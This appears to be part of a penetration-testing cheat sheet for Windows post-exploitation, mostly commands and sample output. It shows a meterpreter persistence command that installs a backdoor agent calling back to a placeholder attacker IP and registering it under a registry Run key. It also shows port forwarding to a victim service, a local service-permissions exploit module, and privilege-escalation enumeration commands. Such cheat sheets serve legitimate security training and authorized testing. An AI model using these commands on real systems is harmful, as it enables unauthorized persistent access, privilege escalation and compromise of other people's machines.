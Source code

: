 **Maintaining Access with Meterpreter:**  
[https://www.offensive-security.com/metasploit-unleashed/maintaining-access/](https://www.offensive-security.com/metasploit-unleashed/maintaining-access/)

**meterpreter>** run persistence -U -i 5 -p 443 -r <Attacking Machine IP>
**[*]** Creating a **persistent** agent: **LHOST**=<Attacking Machine IP> **LPORT**=443 (interval=5 onboot=true)
**[*]** **Persistent** agent script is 613976 bytes long
**[*]** Uploaded the **persistent** agent to **C:\WINDOWS\TEMP\yyPSPPEn.vbs**
**[*]** Agent executed with **PID 492**
**[*]** **Installing** **into autorun** as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*]** **Installed** **into** **autorun** as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*]** For **cleanup** use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
**meterpreter>**
**meterpreter>** **reboot** 
Rebooting... 
**meterpreter>** **exit** 
**meterpreter>** **sysinfo**
Computer: XEN-XP-SP2-BARE
OS      : Windows XP (Build 2600, Service Pack 2).
Arch    : x86
Language: en_US
**meterpreter>**

+ **Forward out a _vulnerable_ _service_ with meterpreter.**  
**meterpreter>** portfwd add -l <Attacker PORT> -p <Victim PORT> -r <Victim IP>  
**meterpreter>** portfwd add -l 3306 -p 3306 -r <Victim IP>  
**$** rdesktop 0.0.0.0  
  
+ **Dude just do this with your meterpreter shell - trust S1REN.**  
use exploit/windows/local/service_permissions

+ **Payloads**  
**-->** Checkbox target machine's **file arch** (x86, x64).  
**-->** Checkbox target machine for _**staged**_ OR _**non-staged**_ payloads..  
  
+ **Execute a Powershell Script.**  
powershell.exe 'C:\Tools\**privesc.ps1**'  
  
+ **I need to enumerate out the System Information.**  
_**Save this info**_ - it can be utilized with other windows privesc checking tools (based on installed patches, OS Versioning, etc)  
systeminfo  
  
+ **Who am I?**  
whoami  
echo %username%

+ **Privileges**  
whoami /priv  
  
+ **List out all NT AUTHORITY/SYSTEM Services.**  
wmic service get name,startname |FINDSTR "NT"  
  